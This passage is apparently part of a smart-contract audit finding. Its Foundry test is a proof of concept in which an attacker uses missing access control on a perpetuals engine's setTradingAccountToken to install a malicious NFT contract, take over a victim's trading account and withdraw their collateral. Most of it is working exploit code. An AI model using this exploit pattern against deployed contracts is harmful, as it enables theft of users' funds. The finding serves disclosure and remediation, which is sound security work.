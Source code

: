 ```solidity
        // @audit call perps engine to transfer account to attacker
        IPerpsEngine perpsEngine = IPerpsEngine(perpsEngineAddr);
        perpsEngine.notifyAccountTransfer(msg.sender, tokenId);
    }
}

contract StealMargin_Integration_Test is Base_Test {
    function setUp() public override {
        Base_Test.setUp();
    }

    function test_AttackerStealsUserCollateral() external {
        // @audit naruto the victim will create an account and deposit
        uint256 amountToDeposit = 10 ether;
        deal({ token: address(usdToken), to: users.naruto, give: amountToDeposit });

        uint128 victimTradingAccountId = perpsEngine.createTradingAccount();

        // it should emit {LogDepositMargin}
        vm.expectEmit({ emitter: address(perpsEngine) });
        emit TradingAccountBranch.LogDepositMargin(
            users.naruto, victimTradingAccountId, address(usdToken), amountToDeposit
        );

        // it should transfer the amount from the sender to the trading account
        expectCallToTransferFrom(usdToken, users.naruto, address(perpsEngine), amountToDeposit);
        perpsEngine.depositMargin(victimTradingAccountId, address(usdToken), amountToDeposit);

        uint256 newMarginCollateralBalance =
            perpsEngine.getAccountMarginCollateralBalance(victimTradingAccountId, address(usdToken)).intoUint256();

        // it should increase the amount of margin collateral
        assertEq(newMarginCollateralBalance, amountToDeposit, "depositMargin");

        // @audit sasuke the attacker will steal naruto's deposit
        // beginning state: theft has not occured
        assertEq(0, usdToken.balanceOf(users.sasuke));
        //
        // @audit 1) sasuke creates their own hacked `AccountNFT` contract
        vm.startPrank(users.sasuke);
        AttackerAccountNFT attackerNftContract = new AttackerAccountNFT();

        // @audit 2) sasuke uses lack of access control to make their
        // hacked `AccountNFT` contract the official contract
        perpsEngine.setTradingAccountToken(address(attackerNftContract));

        // @audit 3) sasuke calls the attack function in their hacked `AccountNFT`
        // contract to steal ownership of the victim's account
        attackerNftContract.stealAccount(address(perpsEngine), victimTradingAccountId);

        // @audit 4) sasuke withdraws the victim's collateral
        perpsEngine.withdrawMargin(victimTradingAccountId, address(usdToken), amountToDeposit);
        vm.stopPrank();

        // @audit end state: sasuke has stolen the victim's deposited collateral
        assertEq(amountToDeposit, usdToken.balanceOf(users.sasuke));
    }
}
```
